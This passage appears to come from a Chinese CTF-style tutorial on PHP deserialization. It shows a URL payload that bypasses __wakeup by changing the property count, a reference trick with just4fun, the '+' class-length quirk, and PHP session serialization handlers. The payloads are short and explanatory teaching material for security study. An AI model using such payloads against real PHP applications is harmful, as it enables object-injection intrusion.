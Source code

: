 使用这个 payload 绕过 __wakeup 函数


```powershell
# O:4:"xctf":1:{s:4:"flag";s:3:"111";}
http://www.example.com/index.php?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

在字符串中，前面的数字代表的是后面字符串中字符的个数，如果数字与字符个数不匹配的话，就会报错，因此将1改成2就会产生报错，导致不会去执行 __wakeup 函数，从而绕过该函数。

## 变量可以用引用

可以通过将变量的值存储为另外一个变量的地址，类似于 C 语言中的引用。

```php
class just4fun 
{ 
    var $enter; 
    var $secret; 
} 

$a = new just4fun();
$a->secret = "123";
// 这里的 & 跟 C 语言一样，是取 $a->secret 值的地址赋给 $a->enter
$a->enter = &$a->secret;

$o = unserialize(serialize($a));

if ($o) { 
    $o->secret = "xxxxxxx";
    // 因为 $o->enter 存储的是 $o->secret 的值的地址，因此比较的时候相等的
    if ($o->secret === $o->enter) 
        echo "Congratulation! Here is my Key: " . $o->secret; 
}
```

## 小特性


以下两个都能够被unserialize反序列化，且结果相同。
```powershell
O:+4:"test":1:{s:1:"a";s:3:"aaa";}
O:4:"test":1:{s:1:"a";s:3:"aaa";}
```

不光object类型处理可以多一个’+’,其他类型也可以。但是如果要进一步通过修改变量的个数来绕过 __wakeup，在 php 5.5 环境下可以，php 5.6 环境下反序列化会失败

```powershell
#  php 5.5 环境下可以绕过 __wakeup，php 5.6 环境下反序列化会失败
O:+4:"test":2:{s:1:"a";s:3:"aaa";}
```

## Session 反序列化

PHP 内置了多种处理器用于存取 $_SESSION 数据时会对数据进行序列化和反序列化，常用的有以下三种，对应三种不同的处理格式：
|处理器|对应的存储格式  |
|--|--|
|PHP  | 键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值 |
|php_binary |键名的长度对应的 ASCII 字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值|
|php_serialize(php>=5.5.4)| 经过 serialize() 函数反序列处理的数组 |
